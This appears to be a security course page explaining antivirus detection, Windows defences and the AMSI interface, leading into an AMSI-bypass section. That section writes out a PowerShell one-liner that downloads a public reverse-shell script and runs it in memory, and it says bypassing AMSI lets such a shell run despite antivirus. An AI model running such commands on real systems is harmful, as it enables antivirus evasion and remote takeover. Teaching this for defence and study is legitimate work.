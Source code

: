 ## What is an Antivirus?

An `antivirus` is a software program designed to detect, prevent, and remove malicious software, which is also known as `malware`.

To differentiate standard software from malicious software various techniques can be used:

1. Signature-Based Detection

	- Compares files and programs against a database of known malware signatures (unique identifiers for malicious code).

2. Static Analysis

	- Analyzes the behavior and structure of files to detect suspicious patterns resembling malware.

3. Dynamic Analysis

	- Monitors real-time behavior of programs to identify malicious actions.

	- Can use `sandboxes' as isolated environments to observe malware
     behavior.

4. Machine Learning Analysis

	- Uses algorithms to identify patterns in files or behaviours that indicate malicious intent.

### Related Technologies

In the context of analyzing malware, there are many related technologies:
- Network Firewalls
- Web Application Firewalls
- Intrusion Detection and prevention Systems (IDPS)
- Endpoint Detection and Response (EDR)

## And in Windows?

In the context of windows, the following default technologies can be used to increase the security of the system:

  - **Windows Defender Antivirus**

	- Provides real-time protection against viruses, malware, and spyware.

  - **Firewall & Network Protection**

	- Monitors incoming and outgoing traffic to block unauthorized access.

  - **Windows Hello**

	- Offers secure, password-free sign-in using biometrics.

  - **BitLocker**

	- Encrypts hard drives to protect data from unauthorized access, particularly useful on lost or stolen devices.

  - **Secure Boot**

	- Ensures that only trusted software loads during startup to prevent rootkits and bootkits.

### Windows Antimalware Scan Interface (AMSI)

In 2015, Microsoft introduced the `Windows Antimalware Scan Interface` (AMSI), which is an agnostic security interface that allows application and services to integrate with security products installed on a computer in order to provide security scans.

It provides a standard interface that allows solutions to scan files, memory, and other data for threats.

Data flow of AMSI:

1.  Application or service requests a scan

2. The request is sent to the AMSI provider, which is a security solution installed on the system.

3. The AMSI provider then performs the scan using its own malware detection algorithms.

4. The results of the scans are returned to the requesting application or service.

  AMSI can analyze the following components:
  
  - PowerShell (from v2.0)
  - Windows Script Host
  - JavaScript and VBScript
  - Office Macros (VBA)
  - Excel Macros
  - .NET framework
  - Windows Management Instrumentation (WMI)

---

To list out existing AMSI DLLs:
```cmd
tasklist /m amsi*
```

To list out AMSI providers:
```powershell
Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct | Select-Object DisplayName, PathToSignedProductExe, ProductState
```

---

The following ASMI Architecture is described by the following image:

![](img/asmi-arch.png)

Developers make AMSI request using specific APIs

```c
// Initialize AMSI
hResult = AmsiInitialize(APP_NAME, &amsiContext);
hResult = AmsiOpenSession(amsiContext, &session);

// Scan
hResult = AmsiScanBuffer(amsiContext, content, contentSize, fname, session, &amsiRes);
```

## AMSI Bypas

Open a `powershell.exe` with the antivirus ON, and try to download the `Invoke-PowerShellTcp` and load it into the process memory:
```powershell
iex (iwr "https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1" -UseBasicParsing).Content
```

You will see the following error, which is the result of an AMSI scan.

```powershell
iex : At line:1 char:1
+ function Invoke-PowerShellTcp
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At line:1 char:1
+ iex (iwr "https://raw.githubusercontent.com/samratashok/nishang/maste ...
+  ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	+ CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException	
	+ FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
```

If we bypass AMSI however, we will be able to avoid such error and to spawn a reverse shell, even if the antivirus is executing.

The idea behind all AMSI bypass techniques have to do with modifying in the memory of the powershell the structures used by the AMSI system.

```c
// Initialize AMSI
hResult = AmsiInitialize(APP_NAME, &amsiContext);
hResult = AmsiOpenSession(amsiContext, &session);

// Scan
hResult = AmsiScanBuffer(amsiContext, content, contentSize, fname, session, &amsiRes);
```

For example, the `HAMSICONTEXT` structure is used in every AMSI-related functions

```c
HRESULT AmsiInitialize(
	LPCWSTR appName,
	HAMSICONTEXT *amsiContext
);
```


```c
HRESULT AmsiOpenSession(
	HAMSICONTEXT amsiContext,
	HAMSISESSION *amsiSession
);
```





